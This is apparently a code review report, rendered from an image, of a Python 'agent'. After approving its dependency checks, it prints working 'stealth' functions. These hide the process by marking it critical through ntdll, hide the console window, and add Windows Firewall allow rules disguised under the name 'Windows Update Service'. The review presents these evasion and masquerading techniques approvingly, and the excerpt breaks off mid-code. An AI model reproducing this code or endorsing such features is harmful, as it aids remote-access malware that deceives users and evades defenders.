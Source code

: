 ### **Findings:**
1. ✅ **EXCELLENT:** Clear critical vs optional distinction
2. ✅ **EXCELLENT:** Helpful install instructions
3. ✅ **EXCELLENT:** Summary of available features
4. ✅ **GOOD:** Exits gracefully if critical missing
5. ✅ **GOOD:** Professional output formatting
6. ✅ **EXCELLENT:** Prevents startup with missing criticals

### **Status:** ✅ **ROBUST DEPENDENCY CHECKING**

---

## SECTION 8: Stealth & Security Functions (Lines 917-1045)

### **Purpose:** Process hiding, firewall exceptions, safe communication

### **Code Structure:**
```python
def hide_process():
    """Hide process from Task Manager using multiple methods"""
    if not HAS_WIN32:
        return False
    
    try:
        # Method 1: Set process as critical
        ntdll = ctypes.windll.ntdll
        ntdll.RtlSetProcessIsCritical(1, 0, 0)
        
        # Method 2: Hide console window
        kernel32 = ctypes.windll.kernel32
        whnd = kernel32.GetConsoleWindow()
        if whnd != 0:
            user32 = ctypes.windll.user32
            user32.ShowWindow(whnd, 0)  # SW_HIDE
        
        return True
    except Exception as e:
        log_message(f"Process hiding failed: {e}", "error")
        return False

def add_firewall_exception():
    """Add agent to Windows Firewall exceptions"""
    if not sys.platform.startswith('win'):
        return False
    
    try:
        exe_path = sys.executable
        rule_name = "Windows Update Service"
        
        # Add inbound rule
        subprocess.run([
            'netsh', 'advfirewall', 'firewall', 'add', 'rule',
            f'name={rule_name}',
            'dir=in',
            'action=allow',
            f'program={exe_path}',
            'enable=yes'
        ], capture_output=True, timeout=10)
        
        # Add outbound rule
        subprocess.run([
```